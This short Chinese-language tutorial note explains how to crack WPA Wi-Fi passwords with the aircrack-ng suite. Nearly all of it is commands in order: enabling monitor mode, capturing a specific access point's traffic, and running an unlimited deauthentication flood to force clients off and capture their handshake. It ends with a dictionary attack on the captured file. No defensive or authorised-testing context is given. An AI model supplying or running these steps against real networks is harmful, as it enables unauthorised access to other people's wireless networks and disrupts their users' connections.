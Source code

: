 #### 常用的几个命令

****

```
– Aircrack-ng 无线密码破解
– Aireplay-ng 流量生成和客户端认证
– Airodump-ng 数据包捕获
– Airbase-ng  虚假接入点配置
```

****

aircrack-ng

****



一般的流程 先将影响的进程kll 之后进行监听

airmon-ng start wlan0 开启网卡

airodump-ng wlan0mon 进行数据的嗅探

airodump-ng -c 1 --bssid 28:6C:07:53:53:80  -w ~/Desktop/cap/2.4G wlan0mon 进行数据的监听

```
aireplay-ng -0 0 -a 28:6C:07:53:53:80 wlam0mon 进行洪水攻击 监听到握手包
```

抓到包之后就可以进行跑字典了

```
aircrack-ng -w ~/Desktop/passwd/408.txt ~/Desktop/cap/2.4G-01.cap
```